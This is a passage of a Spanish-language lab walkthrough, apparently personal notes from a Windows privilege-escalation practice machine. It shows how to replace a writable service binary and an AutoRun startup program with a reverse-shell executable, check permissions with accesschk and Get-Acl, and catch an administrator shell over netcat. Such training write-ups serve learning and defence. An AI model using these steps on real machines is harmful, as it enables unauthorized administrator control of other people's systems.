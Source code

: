 Revisamos y tenemos permiso para modificar el servicio así que copiamos nuestro payload y lo reemplazamos
```
copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
```
![[Pasted image 20240719095124.png]]

Ahora cerramos la conexión de netcat y nos volvemos a poner en escucha y con la conexión de xfreerdp levantamos el servicio
![[Pasted image 20240719095307.png]]
![[Pasted image 20240719095325.png]]

# **Registry - AutoRuns**
Ahora vamos a revisar los programas que se ejecutan al iniciar windows, como podemos ver en la captura hay un programa de inicio
```
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```
![[Pasted image 20240722074230.png]]

Con accesschk revisamos los permisos y encontramos que tenemos permisos de escritura
```
`C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"`
```
![[Pasted image 20240722074520.png]]

También podemos revisarlo con el siguiente comando
```
Get-Acl "C:\Program Files\Autorun Program\program.exe" | Format-List
```
![[Pasted image 20240722074748.png]]

Ahora ejecutamos el siguiente comando para sobreescribir el binario que se ejecute
```
`copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y`
```
![[Pasted image 20240722075129.png]]

Ahora nos ponemos en escucha con netcat y reiniciamos la maquina, al reiniciarse deberiamos obtener la reverse shell como `Admin`, en caso de que no se genere podemos acceder por `rdesktop` ya que deberemos iniciar sesion como admin para activar los programas y una vez activado obtenemos la reverse shell
```
rdekstop 10.10.13.194
```
![[Pasted image 20240722075700.png]]

Y ya somos admin
![[Pasted image 20240722075750.png]]
